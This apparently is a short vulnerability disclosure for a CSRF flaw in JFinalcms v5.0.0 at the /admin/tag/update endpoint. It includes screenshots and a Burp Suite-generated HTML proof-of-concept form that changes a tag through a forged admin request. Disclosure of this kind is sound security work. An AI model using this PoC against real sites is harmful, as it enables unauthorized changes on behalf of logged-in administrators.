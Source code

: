 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/tag/update

![图片](https://github.com/cui2shark/cms/assets/52313275/dfe9ab1a-2fa3-4be8-a9b4-ba40b5e53349)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/2958a8b9-0468-4aee-8a1b-fbaf04657335)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/tag/update" method="POST">
      <input type="hidden" name="id" value="4" />
      <input type="hidden" name="name" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/324c4c8b-f32b-454f-911c-94848303f59f)
